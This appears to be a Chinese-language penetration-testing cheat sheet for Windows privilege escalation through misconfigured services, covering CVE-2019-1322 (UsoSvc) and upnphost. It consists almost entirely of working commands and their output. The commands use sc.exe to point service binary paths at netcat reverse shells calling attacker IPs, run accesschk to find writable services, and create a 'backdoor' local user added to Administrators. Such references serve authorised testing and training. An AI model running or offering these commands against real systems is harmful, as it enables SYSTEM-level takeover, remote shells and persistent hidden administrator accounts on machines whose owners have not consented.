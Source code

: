   #### CVE-2019-1322 UsoSvc
	条件：服务帐号
	PS C:\Windows\system32> sc.exe stop UsoSvc
	PS C:\Windows\system32> sc.exe config usosvc binPath="C:\Windows\System32\spool\drivers\color\nc.exe 10.10.10.10 4444 -e cmd.exe"
	PS C:\Windows\system32> sc.exe config UsoSvc binpath= "C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe"
	PS C:\Windows\system32> sc.exe config UsoSvc binpath= "cmd /C C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
	PS C:\Windows\system32> sc.exe qc usosvc
	[SC] QueryServiceConfig SUCCESS

	SERVICE_NAME: usosvc
	        TYPE               : 20  WIN32_SHARE_PROCESS 
	        START_TYPE         : 2   AUTO_START  (DELAYED)
	        ERROR_CONTROL      : 1   NORMAL
	        BINARY_PATH_NAME   : C:\Users\mssql-svc\Desktop\nc.exe 10.10.10.10 4444 -e cmd.exe
	        LOAD_ORDER_GROUP   : 
	        TAG                : 0
	        DISPLAY_NAME       : Update Orchestrator Service
	        DEPENDENCIES       : rpcss
	        SERVICE_START_NAME : LocalSystem

	PS C:\Windows\system32> sc.exe start UsoSvc
  #### upnphost
	>sc config upnphost binpath= "C:\Inetpub\wwwroot\nc.exe 10.11.0.73 4343 -e C:\WINDOWS\System32\cmd.exe"
	>sc config upnphost obj= ".\LocalSystem" password= ""
	>sc qc upnphost
	>sc config upnphost depend= ""
	>net start upnphost

	如果由于缺少依赖项而失败，请尝试以下命令。

	>sc config SSDPSRV start=auto
	>net start SSDPSRV
	>net stop upnphost
	>net start upnphost
	>
	>sc config upnphost depend=""
	使用accesschk
	https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe
	https://github.com/phackt/pentest/blob/master/privesc/windows/accesschk-XP.exe
	>accesschk.exe -uwcqv "Authenticated Users" * /accepteula
	RW SSDPSRV
	        SERVICE_ALL_ACCESS
	RW upnphost
	        SERVICE_ALL_ACCESS

	>accesschk.exe -ucqv upnphost
	upnphost
	  RW NT AUTHORITY\SYSTEM
	        SERVICE_ALL_ACCESS
	  RW BUILTIN\Administrators
	        SERVICE_ALL_ACCESS
	  RW NT AUTHORITY\Authenticated Users
	        SERVICE_ALL_ACCESS
	  RW BUILTIN\Power Users
	        SERVICE_ALL_ACCESS

	>sc config <vuln-service> binpath="net user backdoor backdoor123 /add"
	>sc config <vuln-service> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
	>sc stop <vuln-service>
	>sc start <vuln-service>
	>sc config <vuln-service> binpath="net localgroup Administrators backdoor /add"
	>sc stop <vuln-service>
	>sc start <vuln-service>